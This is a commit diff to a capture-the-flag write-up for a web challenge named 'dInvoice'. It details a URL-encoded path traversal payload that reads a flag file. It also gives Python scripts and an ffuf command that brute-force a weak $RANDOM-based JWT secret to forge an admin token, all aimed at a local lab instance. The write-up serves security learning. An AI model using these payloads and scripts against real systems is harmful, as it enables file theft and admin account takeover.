

Before and after one commit to Turbul3nce/Turbul3nce.github.io, a Jekyll site: the page built from _pages/writeups/web/dinvoice.md, in a window 1280 px wide and 1400 px high, scrolled down 1131 px. Shown: the part 92-880 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
Update dinvoice.md

````diff
--- a/_pages/writeups/web/dinvoice.md
+++ b/_pages/writeups/web/dinvoice.md
@@ -14,25 +14,127 @@ comments: false
 Our newest web service, "dInvoice", needs an inspection from you to unveil any critical vulnerabilities it might have that can lead to the compromise of the admin account!
 
 ##### Challenge:
-This was one of the more interesting challenges from the Fall Huddle. There are several possible solutions. Funny enough, we could only get the two unintended solutions. The first solution our team found was with a directory travseral within the the file path of where the user's markdown files are stored. The secdon unintended way to solve the challenge involved the way the JWT SECRET was created. It was a random integer that could easily be bruteforced.
+This was one of the more interesting challenges from the Fall Huddle. There were several possible solutions, but we only managed to find two unintended ones. The intended solution, I believe, was to use the Server-Side Cross-Site Scripting (SSXSS) vulnerability to read the JWT secret and forge an admin cookie. Unfortunately, I couldn't get the SSXSS to achieve this. While I was able to read files within the app directory, that was the limit. The first solution our team discovered was a directory traversal vulnerability in the file path where user markdown files are stored. The second unintended solution exploited how the JWT secret was generated — it was a random integer that could easily be brute-forced.
 
-##### Vulnerable Code:
-The $book_name is set directly from the $_GET['book'] input and is used in the file_exists() and include() functions without proper validation or sanitization.
-###### Index.php:
-```php
-$book_name = htmlspecialchars($_GET['book']);
-$file_path = $book_name;
+##### Vulnerable Code (Path Traversal):
 
-if (file_exists($file_path)) {
-    include($file_path);
-}
+###### index.js:
+The invoice parameter is directly used in the file path without proper validation or sanitization.
+```javascript
+router.get('/invoice/markdown/:invoice', AuthMiddleware, (req, res) => {
+    const { invoice } = req.params;
+
+    try {
+        mdContent = fs.readFileSync(`/app/static/user_files/markdown/${invoice}`).toString();
+
+        return res.json({content: mdContent});
+    }
+    catch (e) {
+        res.send(response('Invoice not found!'));
+    }
+});
 ```
 <br>
 
-##### Solution:
-The application allows us to register an
+##### Vulnerable Code (Weak JWT Secret):
 
+##### entrypoint.sh
+The JWT secret is generated using the $RANDOM variable, which produces a predictable 16-bit integer between 0 and 32,767. This makes the secret weak and susceptible to brute force attacks, as the possible values for $RANDOM are limited and can be easily enumerated.
+```bash
+# Generate JWT Secret
+export JWT_SECRET=$(echo -n $RANDOM | md5sum | head -c 32)
+```
+
+##### Solution (Path Traversal):
+This one is pretty straight forward. We can use a URL-encoded path traversal payload to retrieve the flag from the root directory.
+```url
+http://127.0.0.1:1337/invoice/markdown/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Froot%2Fflag
+```
+<br>
+And we get the flag:
 <p align="center">
-  <img src="https://i.imgflip.com/972x21.jpg" title="The Flag" width="90%" />
+  <img src="https://i.imgflip.com/977iy2.jpg" title="The Flag (Path Traversal" width="100%" />
 </p>
 <br>
+
+##### Solution (Weak JWT Secret):
+The second solution involved brute forcing the JWT secret to get a valid Json Web Token for the Admin user. I created a couple scripts to achieve this solution (more like ChatGPT did, i just modified some stuff). We know the JWT SECRET is generated using the $RANDOM variable, meaning there are only 32,768 possible token values.
+<br>
+
+##### Part 1: Generated the list of possible JWT secrets. Stored in wordlist: md5_wordlist.txt.
+```python3
+$python3 generateMD5s.py
+
+import hashlib
+
+# Define the range of $RANDOM values
+random_range = range(32768)
+
+# Open the wordlist file to save the MD5 hashes
+with open("md5_wordlist.txt", "w") as wordlist_file:
+    for rand_value in random_range:
+        # Generate MD5 hash for the current $RANDOM value
+        md5_hash = hashlib.md5(str(rand_value).encode()).hexdigest()[:32]
+
+        # Write the hash to the wordlist
+        wordlist_file.write(md5_hash + "\n")
+
+print("MD5 wordlist generated successfully and saved as 'md5_wordlist.txt'.")
+```
+<br>
+
+##### Part 2: Generate a list of possible JWTs for the admin using the list of MD5 hashes.
+```python3
+$Python3 generateJWTs.py md5_wordlist.txt
+
+import jwt
+import time
+import sys
+
+# Function to generate JWT using the given secret
+def generate_jwt(secret):
+    # JWT payload with 'admin' and current time (iat)
+    payload = {
+        'username': 'admin',
+        'iat': int(time.time())  # Current time as iat claim
+    }
+    # Generate the JWT using HS256 algorithm
+    return jwt.encode(payload, secret, algorithm='HS256')
+
+# Check if the wordlist file was provided
+if len(sys.argv) != 2:
+    print("Usage: python generate_jwt_wordlist.py <md5_wordlist>")
+    sys.exit(1)
+
+# Open the MD5 wordlist (hashes)
+wordlist_file = sys.argv[1]
+jwt_wordlist = "jwt_wordlist.txt"
+
+# Open the new JWT wordlist file for writing
+with open(jwt_wordlist, "w") as jwt_file:
+    with open(wordlist_file, "r") as hashes_file:
+        for secret in hashes_file:
+            secret = secret.strip()  # Remove any trailing newlines
+            jwt_token = generate_jwt(secret)
+            # Write the generated JWT to the new wordlist
+            jwt_file.write(jwt_token + "\n")
+
+print(f"JWT wordlist generated and saved as '{jwt_wordlist}'.")
+```
+<br>
+
+##### Part 3: Fuzz for the valid JWT using FFUF.
+Notice were fuzzing the dashbaord endpoint here because it will just redirect us to the admin panel if admin==true.
+```bash
+ffuf -w jwt_wordlist.txt -u http://127.0.0.1:1337/dashboard -H "Cookie: connect.sid=s%3AWUS4k4gfRYeSPmCM82JmtZJ-MpKfaCMl.O2yTw8lEsoyTVqQlgtPhqSsYW%2FFZvWz3nJvSLMg8FJE; session=FUZZ" -mc all -fs 29
+```
+<br>
+<p align="center">
+  <img src="https://i.imgflip.com/977kih.jpg" title="Fuzzing the valid JWT" width="100%" />
+</p>
+<br>
+
+With that JWT, I was able to login as an admin and obtain the flag:
+<p align="center">
+  <img src="https://i.imgflip.com/977koz.jpg" title="The Flag!!!" width="100%" />
+</p>
````
